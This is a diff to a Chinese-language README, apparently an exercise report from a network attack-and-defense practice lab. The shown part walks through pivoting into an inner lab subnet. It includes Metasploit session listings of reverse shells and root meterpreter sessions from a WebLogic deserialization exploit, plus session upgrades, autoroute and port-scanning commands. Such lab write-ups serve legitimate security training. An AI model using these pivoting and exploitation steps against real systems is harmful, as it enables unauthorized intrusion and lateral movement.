

Before and after one commit to Xuyan-cmd/Network-security-attack-and-defense-practice, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 82% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
7.27 整合相关实验报告内容

````diff
--- a/README.md
+++ b/README.md
@@ -645,18 +645,59 @@ $ sessions -c "ls /tmp" -i 6,7,8
 
 ##### 🚩攻破靶标 5
 
-仍然和中层一样需要找到跳板主机访问到内层网络，通过升级普通会话到`meterpreter`，随后搭建`autoroute`添加路由表，随后进行存活性扫描，再者是端口扫描，话不多说直接操作吧
+仍然和中层一样需要找到跳板主机访问到内层网络，通过升级普通会话到`meterpreter`，随后搭建`autoroute`添加路由表，随后进行存活性扫描，再者是端口扫描。
 
 首先是升级会话和找到连接内层网络的跳板主机，这里因为开太多容器和虚拟机的问题回连速度略慢导致产生了报错，即前一会话仍在等待4433端口的回应时下一会话的payload已经发送过去导致本地端口冲突了，不过不影响，使用`jobs -l`确认后台执行完成后3个会话都升级到了`meterpreter`：
 
+```shell
+Active sessions
+===============
 
+  Id  Name  Type                   Information          Connection
+  --  ----  ----                   -----------          ----------
+  1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)
+  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.56.107:4433 -> 192.168.56.1:60598 (172.29.108.146)
+  3         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60640 (192.171.84.2)
+  4         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60630 (192.171.84.3)
+  5         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60574 (192.171.84.5)
+  6         meterpreter x86/linux  root @ 192.171.84.2  192.168.56.107:4433 -> 192.168.56.1:60622 (192.171.84.2)
 
+msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 6
+[*] Starting interaction with 6...
+```
 
+接下来，需要对中层网络中的三个主机逐一进行检索和判断是否拥有双网卡，从而利用成为跳板机来访问到内层网络的靶机：
 
+```shell
+msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions
 
+Active sessions
+===============
 
+  Id  Name  Type                   Information          Connection
+  --  ----  ----                   -----------          ----------
+  1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)
+  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.56.107:4433 -> 192.168.56.1:60598 (172.29.108.146)
+  3         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60640 (192.171.84.2)
+  4         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60630 (192.171.84.3)
+  5         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60574 (192.171.84.5)
+  6         meterpreter x86/linux  root @ 192.171.84.2  192.168.56.107:4433 -> 192.168.56.1:60622 (192.171.84.2)
+  7         meterpreter x86/linux  root @ 192.171.84.3  192.168.56.107:4433 -> 192.168.56.1:60618 (192.171.84.3)
+  8         meterpreter x86/linux  root @ 192.172.85.3  192.168.56.107:4433 -> 192.168.56.1:60638 (192.171.84.5)
+```
 
+由于已经验证过6号会话并不是拥有双网卡的目标跳板主机，剩下的就是对7号和8号会话进行确认，确认到8号会话没有问题后回到`msfconsole`执行`autoroute`的模块添加通过8号会话的路由转发规则，此时就可以直接在`msfconsole`通过`ping_sweep`和`portscan/tcp`来直接进行扫描
 
+通过网卡、路由、ARP 成功发现最深层次的内网 `192.172.85.0/24`
 
+```bash
+# 通过网卡、路由、ARP 发现新子网 192.172.85.0/24
+$ sessions -c "ifconfig" -i 6,7,8
 
+# portscan through pivot
+# 将会话 8 （IP地址为192.171.84.5）升级为 meterpreter shell
+$ sessions -u 8
+# 新的 meterpreter shell 会话编号此处为 10
+$ sessions -i 10
+```
 
@@ -669,2 +728,3 @@ $ sessions -c "ls /tmp" -i 6,7,8
 
+至此，整个DMZ主机环境就算是从外层到中层再到内层都拿下了：
 
````
Also changed, not shown: other parts of README.md (+22 -39 lines).
